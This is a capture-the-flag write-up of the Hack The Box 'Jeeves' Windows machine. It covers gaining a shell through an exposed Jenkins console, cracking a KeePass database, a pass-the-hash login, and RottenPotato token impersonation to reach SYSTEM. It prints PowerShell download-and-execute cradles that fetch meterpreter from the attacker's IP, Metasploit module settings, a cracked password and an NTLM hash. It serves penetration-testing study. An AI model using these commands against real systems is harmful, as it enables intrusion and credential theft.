 ```yaml
---
layout: post
title:  "HTB Jeeves Windows"
tags: HTB, groovy, rottenpotato, john2keepass
---
```


# Recon
1. Nmap
```ruby
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
```
2. We use Dirbuster to find out the directories running on port 50000
![](https://lh3.googleusercontent.com/_afaZLU2r7PSsRJNlxpfM8UkyjsVbg6g8-1q85Q31pA-5CB_W0-cBRwACFTsE3cod1P26WJo78fFhm3EfoTMnTRoUzNeu223cJ20e1OGONEm8cr4S32otLqEsOEmdKU-va4vkY8eYdc1yCsL0H5tTxNEs5G595qg540jwIVNptwK2XqpEf3jtUgdMY7dt-wPnFLbydXqY05RKIRAvS5uCc9gzmYazY2XIDJY4ytIXmW-z0rGHLZeYilfeoZGdkaY5ei7P8ja2Pv2SL4aPq2lINQL5zS7_H18WLcY-pGSGe9yooMTpZlH5W45fsqn5eA4daF0OZ8bGnSBJJeJTyJT05KXz-CGwsJtEWxmbyTJzrN0IhkEE5nZl0XJ1gPTzuv4kNDFP1OvDefKYTLL3fKxJZZoVKtW7SJAdye7Ul6NimfGXyGvGnrdJIi--lQpKuS9wilTDRAHw6R7pWc13AjelcsL0LtUc-1s8tDxV02KJm-KdHXEDXUviW5n915DxNK8gfRnCdnR5i9qtiz0rqaB0F6kJ114EhwwC4qMKfnyu42rMQbGrebQXGLQRqY2-O41EG7Fp5t_NgJFq3Ulin7nbT3NzRfqM8N5SuCwPYhCqQBlsWF824xZzqonarSURAPU0hAoBmsF-UWXB0HfV9m11tdDJU-OycSAgW5daX-ty4aSU2LiT2a7IvA=w584-h209-no)

3. /askjeeves/ has a Jekins app running
![](https://lh3.googleusercontent.com/Jj_T1StwVe2aThqjKb8ybZ3Ythca4n9qyXUwzI0SnGlu_QoIU1wknCBMWre8iu7hq7qx27D6Ypo_rGBWsguoiwYiEnNMpYlMirqT_HUIzl6QQcoS0bbg7oLsAfc57D8iOVkh9sUiOzVxJ2TkPTa_TIUhwSpNhZE5OHkEJwKiZJs5VCuV9hflHd5vXp4mM8iDlhdEMYotLpDtuQRxxjwXotZyfQtWy59PAcGn1mzTPyTbBNwxkIBlYf_HxMXugwl8P25YDWc8Gqei_npEvzSFTIEwGrbdy-XeW-jk0HZoJ2TwherUMO01qV7ITn-v4_uX5GbLhgKP3iMqy2VqtjYGNVRn28nseTHok0AN9sRcoSIyTaPqUn_-5ErL2h3_JIipQSetVYsosRv55wCUVji94bKP8HDPnKuhGKwt_87D9E2SRo9OL4sHs9EaHsBzfxVmZSEDK1pZJ6NEhZsOmzWeuOjjOpXOojvpP32C09eKfymOJHtKTCZ_PR2Edr9xSVuewwRZ605eCjPYjbkTU5FN3zjoKinaUTkCreIqnc_AIVmNp2fwDtYtS_AdWCg3gJJ5iaWjB4sxo4iKw1D9Pm2gzYno3pJ8exVsC8aDZKB7uZU9UWH4YMivbUSS2HjmJz_cLeWBUDEirs-8FiumgfXEwQuabGMbi5cjEHkDilL8PXhLXPtjEGoWqEA=w632-h364-no)

4. To get admin without authenticating:
```ruby
http://10.10.10.63:50000/askjeeves/securityRealm/user/admin/
```

# Exploitation Method 1

1. On Jenkins create a new Item “Execute Windows bash command” and select “Freestyle Project”
2. Select “Add building Step” and select  “Execute Windows bash command” 
3. On the bash console type:
```ruby
powershell wget "http://10.10.14.14/peterpreter.exe" -outfile "meterpreter.exe" 
```
![](https://lh3.googleusercontent.com/YDkMzr-vtiHmFXOcfFhQ-jH7jwJHqIA4mG4VtCR5_4V5ddTdi5DNFvuYu0_iUxyFGg0mYeDa01p2dWkin60m-wXyvGVl3T2jdiAD9fkGPeCyQRobjP6idpoJ1euKxPaDeQpy-KF7P049lf4x61VASqfhxHpgX_Te_1K7_KPRhIUCwyOzxlwtcKH5y891IF2gyIJk6qNwPyGUgfypQLVWTBzUksJfSUE_dfyOFUWeUVQtK5dSw4YHeNRKlHUu_wZkRf8uRfpuiiCbZnCrYJo08-ZVSDvq7WLYLP7_sfMQvybWlsuXdM8ey_4fyVJutkeu2oYdXRDtBOU22ZROYG5N5kXXvo-8dfKJlhJIC_LMCmEbO7vYjekIXCfJUnHfGwvuf92By4OASnShb63mQpC0ELRs0U0u5WYWkAWBKJdYrxLabjuwjt6dqT_PIjeq9wbrdLlLvN0Zt4ylq_wiyrMLLdrs-EecKC-BDNc24pwU1ZQA1Xkg3JNWCzAYWKV82N8E5QfKroZoWkgWRspDH-x-r3_Y4PFNMBzG7NAhDh2FHsm_aUZgXZubmhmbdAkRfSg5oGgrVTcCdDVhGPYFpglpjAX_7f6_29ZLRUWzdAf29SOyfeDORA_g6Wnu9sY32BjpIeKENlQKpSVjiz9UwepfZDeMxUq_7_HHO_tWEu7MDk3T5Kf8TrIGo9s=w970-h314-no)

4. Start apache and place meterpreter.exe file for download 
5. Set up multi/handler
6. Run the shell on jenkins 
 

# Privilege Escalation Method 1
1. Download CEH.kdbx keepass file
2. Use john2keepass to create a hashdump file
![](https://lh3.googleusercontent.com/9OJrTvzMPP3i6evtNryFb5qTsbZ6hYuMsMxVBMCexwdiFRNtLMd5FDONHlZp29jVycy-DZm5HfJp8sOJMucFUtKf4CyUFQ5eFgS7vfP_IrTF8vFrMomsv2y3RkN3O1LvhsqlwZ9-EoCTWAHNOKHamfJXGx0REoXq4ZAvfawWAfFltjR7pClbmr9thvwl861bHfCizrQfyctVoHuVthL4M9C56d353wTSv_ZT0C3M0CKiQ3PVva9lwEIUQkSXsDLBP_MoVNKnl2j5tfgkJ7RLwu7awrimMRsmUmZZIKhJQYxG1nLgPaSOO8jnGS4cPCP8ythKmrJPbamj_aukj5Js7dX7uplGdBLoIZ7eqvp9ynhUpypwTMUz1qV0blONEDMI0Z9DAv21mupuwy9lgEhldxUGSbkWWCeNCD9wdXgARa68Fj_Z34ymA5deD938PrLFwZNW-dK9atiHSty3PuJZ137cSjJJeCE12eKr9T5-vMPuPCoqtsPbQPBFnRr0rPcKsXVPVkWmRcG1uS4ut7fdcTOeKWcGRpY6qoX-RGaGcjosh0iOmI1gWGplcIZ13ets4HTdUOBTqYbYtf4VwNSzeHakxkzYq-QvogDZoGfQ7pIWez5zNa6eWHy9Qyrkel_So7jCZPTCupseRaP9_fjg2EBzk-7i-fsNSb_-741OtvOmM0MErJ3yijA=w702-h41-no)

![](https://lh3.googleusercontent.com/V2iiPSYdkJN0xPncus61RGEf31aNjntGxobvD15RWQ3fUoJzXke3K1Tue5ZI1Bj2bTo6v2fcASLwknkVEGR7po5ilL5n2hes31D_H6W8AOCr3dW_R3DbkfV0CccSpGIag-f7nfhVzWw74n_CwbpL4jgGPh7apMcnEqnfrGytrq35ancCHvjt4eVcPTTqqfkxNcfn0uWbUTL3TFGH7BMxf96l8SypVKWsSizSgGu6SzkDy8qwHPeVc8PcvxZaQMYBgfgJR12zwEjzEEeOPKBVbn7QHbtk2ev43cKlOOa8sG9u373O7f4_oKZ06XM7OktzPVmt0gFkxm46MLnvZdtbrqs_iCgW0FIsp5SiITAtU3kkEa4dm2RkB7ZbZuc4apRbVFN9aIYUrxAg9R3T5dAV_fomwvfr0xMAYpTfShNPUCXfu_Q6FAf7q4nyy2saITO2oFe7NTt7RYAkXqc1nuIONF5v-iGDG9l925kQRN_ltKVmeS30Uesla1b2SyiEGFkisnK523pzz6P0BH2nsegS3Ajgj6miEXUZLkViGgFWsU1snZqOe7VDZiZjN2gN8dDD3YWgWmOn420f3ATQULPWRakbezNnOPDpiEC7pagobe2gpcg1fr8_BuH-9Y9NOMZJSMQCecRic3bBYdtF6gJNfJJdBmLXuW3A1jQs7JhxwA30pr6EAVQubFg=w1345-h92-no)

3. crack the has using john format=KeePass and wordlist=rockyou.txt
4. we obtain the pass : CEH:moonshine1 to load the keepass backup file
5. Install Keepass2 : apt-get install keepass2
![](https://lh3.googleusercontent.com/Islqk6gH29nUfCHj6hmq2q71eDb4v8npwOjXZH-YWU4PXsKopusOcWfZpf2bVwFKsoSaoNeWRc82p7xuMjyZI3MmXMqLDb2f2B0wGH19CIQm5V_rsxOajEFUN2On2LOzpFQA3PwwsYW02m5v3eeLUNbYVZYZAm9NJlfqjnJRKC1uHWapMeWIjhhlV2pFT_Aqpq2_E_t6SXiwiBP3IF37eCHgndzIrHCy0fZ6rvRxxr47NRBjkj5UvwhHuyI6oDH_PJvpjOOuyLpuJ4BkG33cdIZZWujGHfweBdZqNVkdID3pLb0wZbAuwcPq_yQ1wluC3QbJ9acLlI_9FZV91d-n6xGZOlAZiatAf6iMxtC4OtjwcRSaEdYYg1fdm_k6o16WkAktDww9rRjmkvYz6tBAtZsca4TG3RHimXsxagR-lQNMMPRMZLAPP83Z6U-TjCEWhlatFs2tMtTSqMxkdlXhmFTx7E1N3kCVOPE2I89I3vNLVnaKtw2KjzTI7R0zP-INNBzP-cVAOOjKip05lrlI8GS_iFkR5b6SV5hekOTC9fqmrb5ZTHq4WsKwoPB48kvBsJVqXuyQi0jjMdha9zMuFV5QxQK4-v4P0xXh3pywPSf61DRGjOZPKkxjm0vEFilKOftQ1jGHKtsSqtffwNwwokLPI87u3UdQRonyC-dpaoSoW_jRvuAqQ5I=w880-h380-no)
![](https://lh3.googleusercontent.com/yESheUKzZintmFdhx5grIB2zb4xqmTSHK2WESoOWO4f_BREzErS47xF7urY02sxJ6y6IQRF3hXu6cNg0JjTM1iI6-TWS8cj9wO_qijOF_BcZVsEysvmuv321r1mhSfAXCYCQingIrtmwmTkcbmhl_QSmFIapTtKkO6A7Fx6eTcBOWlJGJ4zA2Jr7SfXMri3Gm5A0GbSx7HnRLmzR9LLwJ-tLp5vIHg_pBLoft8bH0c1NMFqiPlebp-KWeK7JSEDT_i2HCk7nDT2Naw9Zwpl3_PyYIS2BNfvSclSNZNq4_IV4kFBir2e6_MHnlSFH9F-v42hxhXnNXAzFHOYIm2DPmfOZ-_aQ05bStVMjDkT8ZmcyJ5lYyFXeLGthuMTcedri41MKxYrquY8pPzNS25Nv-dXjOFx10wjg3j1kXvO5vz63xxWKyiKozyWOTaCLidmHMNSRO0Rc4iCzbNvKfWNErZc4pr5pNlA1cCCXNtkik8cpfNBeLfmjoSW0l_L6HZ71NBcdp65OphiFlHj8l8SKyX966PNokooYu4ND59OqZGUdIl_jb-7GAHe0Oj-2_ZEi1EYf00fgikl_SYeVO6UaQbsiw_c_yFhB4rgIjUznoUuNxMZ7o2ad4h9FKHZyWGOxunKXVfVNgmv5-wBOk3zUh3Mpy9hHk9E2zzZfouiqjJNbKS-Tj-cLg08=w665-h271-no)

6. We obtain the admin NTLM hash: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
7. Using msf "windows smb" we connect using a pass the hash techique:   
```ruby
use exploit/windows/smb/psexec
msf exploit(windows/smb/psexec) > set rhost 10.10.10.63
msf exploit(windows/smb/psexec) > set smbuser administrator
msf exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
msf exploit(windows/smb/psexec) > set lport 8888
msf exploit(windows/smb/psexec) > exploit
```
![](https://lh3.googleusercontent.com/eBGePb4dnYzjoWMM-uXeEVgU0B46DEP9OgC_jyx8zfjsLP751XG5pEewQIpctBbWS5_J8PwDD5jVA-KrKoV7QgQxgWd0W6m-71PKfePq7xgLdVMytDA8OiAL-_koytlRo-5RaMwu8iZc3dIsHmq0hYVxvDMaxzyeH_DjcDl_hAJqQ1sDZLzaVX7tAth7l8yWfvlcvNoOPQ2ydYo5QKMTd4HbsnwacR5PzQZ12NIPXsRRJWwgkpHaZvTYLU2A799DJXPJLQZjBoe1K9WY8bGyn8Ecd3QfBXFVuLVHPdpS74V7s7H_01iEgGVk6d39JKRcoHZxIyKsH5TXzcWFX_CSCMyxRZTl2hUw41VvyXQ3sd-XavvAn4XPNEcioBey3fJyzLk89FED6qEMUnriqdnmQ-DXtDNjO6lfJwG75pDVecQrck1ou6IACPABkJTqvbk6-_uWNcASpUYnNGhKUb0Hk2E95Jwl7BH_lSKNGGI9arxIXDLe-jHREUdpRCLfwLx7yV5bPQfCtY4zPI3ENM_AUGGr_tl5QMXmKNo3dVlBI8Cy-BuuDsx3MOmV5QvBLF9PXfj9EXHA1nle7ahUKbgQTxByBQZ-dcUCdBCPJBaLkzRbELxKX8nQGGXcxjA3--NYeMvx8DJB5dGFGO4-sLeou4CMl1UA6jxc7Zumi272S3fDpfmbbWHcU1M=w800-h135-no)
![](https://lh3.googleusercontent.com/jkBEIkugszoadzManrJjWgPSIbhMSZ8GCHx1CgbEUGvemic6IjOqB0oLqNJ_UZi9o6S2uEOpWKLS8HZqiNRkh01l3dPXAslRa4bbVsZcZQpFlz_WKW8_WcnH2iW9pOAhyEmUzWb-AxmsCldGiQIJT4t7reDBZeJomaNh146EKAgSjFTZvE8_oMV16MmhKHvPRhUQyAGzFQwvN2gqvu1SWiwVfZuXy3JembymELFzWpITfviVRZHOFQM6qLTZ2enZWELKBixCIkXoDxXOs5qNXaUJuNUBCRLZMUp52D3xncwImlnXN_oSHV5tTFS4ymRinMLIKiavRhAbbWkBkUVHShKOjcVfxpAihdt0Lb1oTcGy58xqfggYpruewA89FUp9SK8K-cHRG-y-SfM0HsouT5c9zu-CW0v8gx5zCR3r0Wqhq77A9C_PV4xkpgeTQdfTx5rV2CUROlN9TSaYxGedNUtZWSznAWcRbBEFyDzYQyTMrgUuJ1PCYN5IUDwKSywX5HYdwcMvdShwlNn3XHLM7wOLB2r9lSc0YeKiVkm_m8MhLxs0DnoI8vyXYCJBoKfSs-dXlirhkPP65i9XxBh9_PZj1BL1pOA7Qoo2AG9VAyQiZ1NZuU_fGnhq8HDA2jeVLB2GG-AdecuEMF9wM0t-AwQ0PaoySeJ4SsnfAuMqJZFnW3JIBHbv9EI=w1027-h250-no)

8. There is an alternate data stream applied to the ROOT flag. to view flag
dir /R
more < hm.txt:root.txt
![](https://lh3.googleusercontent.com/xpd9SOEyI-JiReW2JbioAi5AHMCFGy0V0tHvKOvKTVGHz_cFIYogPb7A97ebQStpAVXRvvO8wSzkWQ8-RVjdsPBPuXU3WXIu-1F2CCcJB6NJQjm7i1FFZoM6yRXo4OwLSdLemtzVfa6FkZ01TK_YqR8Ek88JQDalshpNtugrdYquLhrOaDaK2knsxfvJCNVmFzvBM36fNmerXk6v1rLlGuZ_XHYU13qbQUlJrBB03UCCp3KSxXY_5njK80QIFHOAvrUlEOsg2GgHXiRY1PJys_OQ9QOkIDmOTbSGPm10tImD1CAoulflJDb7FYywwHTgU6QYHCgvgkmZ7P8Z_4O0YKmdko7PG-QPWMC2Z1hEsK-bcJzzLR77tsxXslJjzzmxDcbYAOAoGqov0cN-GeOln22HWPmRN0DujJennCg6ARTRuiWK1v6CHOAq2gChBiH6xYqcU9Lw_HigXJV0dc70_E9q3Cj8MpEjevgZdq2DXk0T9892WvKy562S_aOQc4OexG7_kiB4M-4NqIGwGS2YK-tkxFeXI5lJHOfPlSAkdbJl27L6tFsfFyxxFIXcYgi2n0Z72pKqVd6Isr3ci3MnDlFFmkdyUnEm3RPD_uH7mMaxpT8ZPLTFBU41wkIuvixCa0Cr6fSvTnMfmnOhxvK4v6H5mgpNn0uS5FuD1b5LwhMz_7vaf1S5z6o=w567-h457-no)

# Exploitation Method 2
1. On Jenkins, create a reverser Groovy shell on the “script console” under “manage Jenkins” tab and run it
![](https://lh3.googleusercontent.com/FQ5o3fWatVzanE6muqXIeYxVxlS8jQPi6Bv8_U5FUys52OShe0tsZ4D6rlHXkyLFGibxeeLQRIHHcyoBpviboovTRMaBXEqb6o5THcYwj61z0rj1JnDcdDkV8dbvp7PD-cm7xzZgpMWPIpRXZ0xs6MYARFaQI4jUb2tjIC2KM2qzWnPFOkHES1Lgdq88OEtn-2mdg2uNf3fa_6jal1iQP34tn7m_JjvE4ssIVQWENE-F_bPJ_C-jPvohYjL_5chRkq1Kx_LKAKMyaF6e-msKgVOSaSEySgrhC3c6vtmUFtD5hSy4EjrxadEcsVs0m_QcqJxcBLLdAbGCeu_AgXzHuThcB9yozRZLTHi5NRipm6cmE56XYLGM4n-7wcr04P7IT5EPjbblF8bW5eFBuCx50z6fOkQTNbVyqJT-UAj6flFYpgzepqkJ_iY2Gd98EO6pPCMyh0-TSfGozdMyfSYCRns0eDiEK3em0_IJDtUSTcTtcr9MtcumII-3hTZbIKX0mWotQ8125hiaM-fnJT4iBlFp0obvK7sroscqZn98mpa65Gy_6iOfHml05eIVQZxiM9gAV1Zm7j0itM8Q95oXnOys2HJyAakhnqV-3CX8cz0eIj9ZxMBZ97MTo7IfaWprlmx16hOODWA5PVCzyxXb80MXjzLVhwZ9Lt9n9QOYg81xVttQpxVmPKI=w503-h125-no)

2. Set up an nc listener to recieve the shell
3. Set up a meterpreter shell:
```ruby
use exploit/multi/script/web_delivery
msf exploit(multi/script/web_delivery) > set target 2
msf exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/script/web_delivery) > set lhost 10.10.14.28
msf exploit(multi/script/web_delivery) > set srvhost 10.10.14.28
msf exploit(multi/script/web_delivery) > exploit
```
4. We paste the following generated code into the netcat listener and meterpreter session should be created
```ruby
powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.14.34:8080/MHGDnJdwHT');
powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.14.34:8080/MHGDnJdwHT');
```
![](https://lh3.googleusercontent.com/cWUwdooZ0YmIq8lxngjJOvsdkv12Wn4IHBeoHD_JyecTa_NWPth3Smo34rumlM0lWemLXHI4yTHgA7ckuq9mJZz0atCu8Ehaxjr207WEBVlpmzCJUgRK-aMFfOVZX6nCs7LBF8QdYQwPtVsj-l8ppm8g5qcswPARi83sk9PY82rTABlC1IH6jWpC2wF0HwPI6bzV6rwSYRKcdq6jw5y3FhQiaRu9UEvEOAK6uVpTcIdo-0f7G-68Qoj9d2YFPxGPkcvFwnGFMu4MPDYQVES6a6HCAVI4ForSBJdmZFi83obZYVcWhMSXCOEzwaF3ru1PwextetH8J4KkVqzfu54NIchmHzzItE0opaMcld6y2_Zk41KqUx-BbGrWR4lqzMrI3zV_J6UmfMrm8QEgRds6CUVWiGTRutdEXkPaPTfegCDKMwQyQ4ntls48u_if0mXYgzI4cVICHX82HirOYw8gnFjnB_r5avyTPOUh3PpAw9t4pLVvV_hBzKuSIuXNxZ6i9pPD87B79rr4KKn8-FkaJGv0MsOjPVYe-EW_YgVzT-955tZM-NK7Xrk5KkL874ey0IxpzsMdouflQkOJDu0gtaEsHOmE-IzB0AbbcTYgZRur8B3aNNV7sKxhkihedFuiYSLCmR4_oTSpW_Eq9rMblbUXywBvVfjgvAzPSr1wAM54O4qtgGWU2IM=w601-h240-no)
![](https://lh3.googleusercontent.com/4geGjhzpOMMJVbYdiXGbEOjRrG6fsO62THAFzVeRBt82R4xT3T-D7Te39MY-_8V-gmute5NX_tHh89Zkt_f2YCjem3ibxspd9VzBRTMHE0rTotUSvYzBNbvJ4mX1C3XzSI9d_Dv0sm44DQoYkfRI-TAsqBNJhAG7XuQ_YJQEiLU0vOD8ONN2h0NP4RZGQbLUTJM3JoZsr1v4zoJcM4opPthsqa3eitbAPsmgb6DJTL21Z-mYiiMsemkoVRtqITd2QbXtUZH9ye6UsJZJCGYcEnvCQ_T9rl5mSBWtYFq4Nb_bQIWB5K-xhwegATF79SbfgOb0jfBzAt16Htwoqyym9nt-NyHUzhynQjaO3ouOvLyZAIS3Y8B4gDO6B6c4-X8dTHLXq_o6x7-3tScUfgw7EaWhhHTm_6rQuwez7g_o9zh24RgCi-kgjlHrwev9KwNRU508Dog4Ze3JVeewLX9OUXJ5DxBMm7RkiuLQvHdeBnvmzYAe3d3htrIFuJv3TEJN942rxS1uxcBb5HhA6wO5arpA8OiWK_8Bd4VGQbwEjVpnmnjDECIDkGV41CSN1B1ZvQZgbr3qHgWH-WYn-WCXQB3Zx4tuR-xDj_fvRt3J3VzxUZ0ayTwTBHDBWr_BHznKcs4N1YdzecsLIpQ-EDlvIox7Ojzzyq9NHFXefheTVbzxgCSv55UU82k=w627-h269-no)

![](https://lh3.googleusercontent.com/SQMm5Heeyenkw81qqmiX454UcyGRe9p_VcJfniTFz0RZCHnL-QvTifqdbCl6dC72qSFh0oRG0h9V3vXkbpoD1Koa1HHTdn0qSBpaNNdgkEUNVp6jsOXPcfmCdD1yOLZ_iTcU2GxL-TadvjMiCjqvTjEcbn3Q7U-4SBOLAFKLbbXfFB9zEGhuGbNPgxqIqU3JOn_2sWHKNaGpJ3bKZw-jM6_SxRtEkuWhXWi3Rb7AAv9t5ES94Qs3T02yGCbuWT93dx82vDNPFLAnSfrduEuaonH8evQRczYeGg2Swk4VdE1Ceg3AUq35nH5a4eBgOwGWIxYknK_EiGo3oWqnUxCZSp2R8dNwtrfy-qE9U8PkJyYpwGVI8F6o4sZNFqOm1oUKYBr0Vn7bM2pQ_qCIQ7_CLI-Nr3RhqG9LQsJUiZ7u3gfpmIrW0oLFBPDfWF6t71Y9wVS5mpNSt6qvwHLv91affyrzYh2UI-pMK1FIXsLPelY8RmHlr7sYD28i6-i-xT5FJDTe6mdsm2rOHzoN_6TTXjBKh88hFb9aloCEeiwaDEGNQvrMiFR9jU_RZkqh_ZkXyshCIorKF0SDR0nOP3ZyCn41NpEyAe4taz17ArwaOLa80lNNLj5D-_u2HoZ3O-kPuKcS_ukcQtF313X0dcHJ7Zjs-CXJ1-Bpxi1IPVPzwzLGBjW0VyRlKKo=w1134-h331-no)


# Privilege Escalation Method 2

1. Use Windows Exploit Suggesters
2. We use the Vuln MS16-075 and we upload RottenPotato.exe to the target machine
3. then we load meterpretert incognito: load incognito
4. we execute the rottenpotato.exe file
5. then we type:
```ruby
impersonate_token "NT AUTHORITY\SYSTEM"
```
and finally we get root level access.
![](https://lh3.googleusercontent.com/zBWypHEBhLc6rJr4e0nfdaRSeTA51f4sOLArH4Jz_UlHQR7wxJ90Lsz4ohA_CoQv0AIDnwycooSnaCz9CqBnRHbzA80EkXYQa5cDtEIaCr06jkCFDl9P0Nz8n94mriplK7pPnNix-Pqbl1XHr5V4lnkVIHBch-K7NoazKkcKnxk9lsIwJcVNc_6w9JAy7muxtJHZnk0e29zCjKQnzJKtSb3Fmq-dq1RoeHWBiT4yv7bbehtyvzSUHhDCrEC040zNh5QNeUMNyUikSoylSkyk5b1sOks-qb5JuwdNAQPqhyPfjNcuPB9vs4ARnBOHwZtPZ6ML9fkYCdkhTYx__nEj1hxXPwXX8lSQMU6DyfVzsL3Yig6vlHFtvoYxgyUUlUx7cknjgoLm7ZYTJ6KqhiWmSFhb7cAjZpLC07V9_h90PReJ7KgFP0CQ2cXUOZpjzzrf5-nqDhbZXh9QAFJ7qbjRqeQ6c-E9aMn6dkdV6ONRqMrbw9P3HI6tGonaXaRa6tl4mYfB2aKQHf5t_uQ9oYzIdPGP0vz26cLW4wS2cm-wzGzn1nN5228YVD4Ju3n6q6xCGolE9LMzyPc5H_RACVnResBfUgvp8O-jt9pC3QrSy16t1kb2h0d8aNjbgonKh2J7wKKz4S7I8qx7BnkEyfH859uIb3V_1Ef8GlyEytzBJMf-q7x9ZeZOXxA=w656-h308-no)

# Flags
```ruby
| ROOT | afbc5bd4b615a60648cec41c6ac92530 |
| USER | e3232272596fb47950d59c4cf1e7066a |
```



